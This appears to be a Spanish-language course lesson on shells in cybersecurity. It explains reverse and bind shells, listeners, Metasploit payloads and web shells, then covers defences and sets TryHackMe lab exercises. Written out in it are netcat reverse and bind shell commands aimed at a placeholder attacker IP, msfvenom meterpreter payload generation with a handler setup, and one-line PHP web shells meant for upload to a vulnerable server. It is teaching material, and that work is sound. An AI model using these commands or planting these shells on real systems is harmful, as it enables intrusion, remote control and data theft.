

## ¿Qué es una shell?
 
Una shell es un software que permite al usuario interactuar con un sistema operativo, normalmente es una interfaz de línea de comandos.

En ciberseguridad, nos referimos comúnmente a una sesión shell específica que un atacante utiliza cuando accede a un sistema comprometido, permitiéndole ejecutar diferentes comandos. Esto permitirá llevar a cabo varias actividades, algunas de las cuales se describen a continuación.

+ **Control remoto del sistema**: permite al atacante ejecutar comandos o software de forma remota en el sistema objetivo.
+ **Escalada de privilegios**: Si el acceso inicial a través de una shell está limitado o restringido, los atacantes pueden explorar formas de escalar privilegios a accesos más elevados o administrativos.
+ **Exfiltración de datos**: Una vez que los atacantes tienen acceso para ejecutar comandos a través de un shell obtenido, pueden explorar el sistema para leer y copiar datos sensibles del mismo.
+ **Persistencia y Acceso de Mantenimiento**: Una vez obtenido el acceso al shell, los atacantes pueden crear accesos a través de usuarios y credenciales o copiar software de puerta trasera para mantener el acceso al sistema objetivo para su uso posterior.
+ **Actividades posteriores a la explotación**: Una vez concedido el acceso a un shell, los atacantes pueden realizar una amplia gama de actividades posteriores a la explotación, como desplegar malware, crear cuentas ocultas y eliminar información.
+ **Acceder a otros sistemas de la red**: Dependiendo de las intenciones del atacante, el shell obtenido puede ser sólo un punto de acceso inicial. El objetivo puede ser saltar a través de la red hacia un objetivo diferente utilizando la shell obtenida como pivote hacia diferentes puntos de la red del sistema comprometido. Esto también se conoce como pivoting o movimiento lateral.

## Tipos de shell

### Reverse shell

- <u>Definición:</u> Un reverse shell es un tipo de acceso remoto donde la **máquina objetivo (víctima)** inicia una conexión saliente a la **máquina del atacante**. Esta conexión permite al atacante acceder a la línea de comandos de la máquina objetivo.
  
- <u>Cómo funciona:</u> En una configuración de shell inversa, el atacante configura un **listener** en un puerto específico. Una vez que la carga se ejecuta en la máquina de destino, se conecta de nuevo a la máquina del atacante, creando una **interfaz de línea de comandos** a través de la red.

- <u>**Por qué usar Reverse Shells**:</u> Los shells inversos se utilizan a menudo para eludir cortafuegos y configuraciones NAT (Network Address Translation), que normalmente bloquean las conexiones entrantes pero permiten las salientes. Al iniciar una conexión saliente desde el objetivo, los shells inversos aprovechan esta apertura en el cortafuegos.

**<u>Ejemplo**</u>

Netcat es una herramienta que soporta múltiples sistemas oprativos, permite lecturas y escrituras a través de la red. 

El atacante utiliza Netcat para escuchar en el puerto 4444:

```bash
nc -lvp 4444
```


A continuación, el objetivo o víctima ejecuta un *payload* para conectarse de nuevo a la máquina del atacante:
```bash
nc [atacante_IP] 4444 -e /bin/bash
```

Esta configuración permite al atacante controlar el intérprete de comandos de la víctima a través de la red.


---

### Bind shell

- <u>Definición:</u> En una bind shell, la máquina objetivo escucha en un puerto específico, esperando una conexión entrante del atacante. Una vez que el atacante se conecta, obtiene acceso remoto a la línea de comandos.
 
- <u>Cómo funciona:</u> Con una bind shell la **máquina objetivo se convierte en el oyente** y abre un puerto de red, vinculando un shell a ese puerto. El atacante se conecta a este puerto abierto para obtener acceso.
 
- <u>Limitaciones de Bind Shells:</u> Los Bind Shells son más difíciles de usar en entornos con cortafuegos restrictivos o NAT porque requieren que la máquina de destino acepte conexiones entrantes en un puerto específico.

**<u>Ejemplo**</u>

La máquina destino utiliza Netcat para configurar un bind shell:

```bash
nc -lvp 4444 -e /bin/bash
```
A continuación, el atacante se conecta a la IP y al puerto de la máquina objetivo:
```bash
nc [IP_objetivo] 4444
```

---

**Reverse shells VS Bind shells**

- Las **Reverse Shells** se prefieren en entornos seguros porque inician conexiones salientes, a menudo permitidas por cortafuegos.
- Las **Bind Shells** requieren un puerto de entrada abierto, que a menudo es bloqueado por los cortafuegos, haciéndolos más difíciles de ejecutar en las redes modernas.


### **Listeners**

- <u>Definición:</u> Un listener es un proceso configurado por el atacante para esperar una conexión entrante desde una máquina objetivo. El listener es crítico para establecer tanto reverse como bind shells.

- <u>Propósito:</u> El listener actúa como receptor, esperando a que la máquina objetivo inicie una conexión (en reverse shells) o se conecte a un puerto abierto del objetivo (en bind shells).

#### <u>**Herramientas comunes**</u>

- **Netcat (nc):** Una de las herramientas más sencillas y utilizadas para configurar escuchas.
 
- **Metasploit Multi/Handler**: La herramienta `multi/handler` de Metasploit está diseñada para gestionar listeners para varios tipos de payloads, incluyendo reverse shells, proporcionando flexibilidad y características más allá de lo que ofrece Netcat.

**Ejemplo de listener de Netcat**:
```bash
nc -lvp 4444 # escucha en el puerto 4444 cualquier conexión entrante
```

---

### **Payloads**
- <u>Definición:</u> Un payload es una pieza de código que se ejecuta en la máquina objetivo para establecer una conexión de vuelta al atacante o abrir un puerto para que el atacante se conecte. La carga útil puede iniciar un shell inverso o bind y puede variar en función del sistema operativo de destino, el tipo de shell o las necesidades de evasión.

#### Tipos de payloads

- **Payload de shell inversa:** Diseñado para iniciar una conexión saliente desde la máquina objetivo de vuelta al atacante.
- **Payload para bind shell:** Configurar un oyente en el objetivo para que el atacante se conecte.
- **Payloads en scripts:** Los payloads personalizadas también pueden escribirse en lenguajes de scripting como Bash, Python, PowerShell o incluso JavaScript, dependiendo del objetivo y del contexto del ataque.

##### Usando Metasploit para Payloads
Metasploit provee payloads pre-construidos que pueden ser usados para generar reverse o bind shells.

  Ejemplo de comando: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=[attacker_IP] LPORT=4444 -f exe -o shell.exe`.


---

### **Web Shells**

- <u>Definición:</u> Un web shell es un tipo de shell que se aloja en un servidor web, permitiendo a los atacantes interactuar con el servidor a través de una interfaz web. Normalmente se trata de un pequeño script subido al servidor para ejecutar comandos del sistema.

#### Propósito y uso
- Los atacantes utilizan web shells para obtener acceso persistente a un servidor web comprometido.
- Las web shells permiten a los atacantes ejecutar comandos, subir archivos y ejecutar scripts adicionales en el servidor.

#### Lenguajes comunes para Web Shells

- **PHP**:  Esta simple shell PHP toma un parámetro `cmd` y lo ejecuta en el servidor: `<?php system($_GET['cmd']); ?>` -
- **ASP/ASPX** (utilizado en servidores Windows).
- **JSP** (Java Server Pages) para servidores basados en Java.

#### Detección y defensa

- **Vigilancia de la integridad de los archivos**: Comprobación de cambios no autorizados en directorios web.
- **WAF (Web Application Firewalls)**: Los WAF suelen detectar y bloquear los web shells.
- **Análisis de contenido**: Escaneo de archivos en el servidor en busca de patrones comunes de web shell o código sospechoso.

---

### Resumen de escenarios de ejemplo

1. **Shell inversa con Netcat**:
   
      - **Atacante (Listener)**:
       ```bash
       nc -lvp 4444
       ```
       La opción **-l** le indica a netcat que espere una conexión, **-v** activa la salida detallada del comando, **-n** impide que las conexiones hagan uso de una búsqueda DNS (no se resolverá ningún nombre, se utilizarán IPs). Finalmente la opción **-p** indica el puerto en el que se escuchará en espera de conexciones entrantes.

       - **Víctima (Payload)**:
       ```bash
       nc [atacante_IP] 4444 -e /bin/bash
       ```

        Se podría utilizar cualquier puerto *libre* para escuchar.

2. **Metasploit Reverse TCP Payload**:
      - Generar un payload:
      ```bash
      msfvenom -p windows/meterpreter/reverse_tcp LHOST=[attacker_IP] LPORT=4444 -f exe -o reverse_shell.exe
      ```
      - **Escucha en Metasploit**:
      ```bash
      msfconsole
      use exploit/multi/handler
      set payload windows/meterpreter/reverse_tcp
      set LHOST [atacante_IP]
      set LPORT 4444
      exploit
      ```

3. **Shell Web PHP**:
      - Crea una shell web PHP básica y súbela a un servidor web vulnerable.
      ```php
      <?php echo shell_exec($_GET['cmd']); ?>
      ```
      - Accede a la web shell navegando a `http://victima.com/shell.php?cmd=whoami`.

---

### Medidas defensivas

1. **Reglas de cortafuegos**: Restringir el tráfico saliente a puertos específicos para evitar que las reverse shells establezcan conexiones.
2. **Sistemas de detección de intrusos**: Utiliza herramientas como Suricata o Snort para detectar firmas comunes de shell y comportamientos inusuales en la red.
3. **Seguridad de puntos finales**: Despliegue soluciones EDR que supervisen procesos y conexiones de red anómalos.
4. **Seguridad de aplicaciones web**: Analice regularmente las aplicaciones web en busca de vulnerabilidades que podrían permitir a los atacantes cargar web shells.

## Ejercicios propuestos

1. Realizar la máquina [**Vulnversity** en TryHackMe](https://tryhackme.com/r/room/vulnversity). Se trata de una máquina guiada donde repasamos fases que ya hemos visto: escaneo, enumeración y explotación mediante vulnerabilidad. Finalmente veremos una forma de obtener una shell inversa utilizando PHP. **NO HACER LA PARTE DE ESCALADA DE PRIVILEGIOS**.

2. Realizar la máquina [**Thomson** en TryHackMe](https://tryhackme.com/r/room/bsidesgtthompson). Se trata de una máquina no guiada donde tras la fase de escaneo y enumeración debéis conseguir acceso a un famoso servidor de aplicaciones y tras ello crear con *msfvenom* una shell inversa en formato *.war*, que se desplegará en dicho servidor.
    Al acceder al *.war* desplegado, se establecerá nuestra conexión inversa. Esta página os puede resultar de inmensa ayuda: [https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/msfvenom](https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/msfvenom)

3. Realizar las fases que os marco en la imagen de abajo de la máquina [**RootMe** en TryHackMe](https://tryhackme.com/r/room/rrootme). 

    

    En este caso debéis escanear con nmap, descubrir (mediante *gobuster* o *ffuf*) un directorio donde podáis subir archivos y, una vez en él, subir una reverse shell en formato ***.phtml***. Podéis bajar cualquier shell prefabricada en PHP o generarla vosotros con ayuda de [esto](https://www.revshells.com/) o de [esto](https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/linux#php).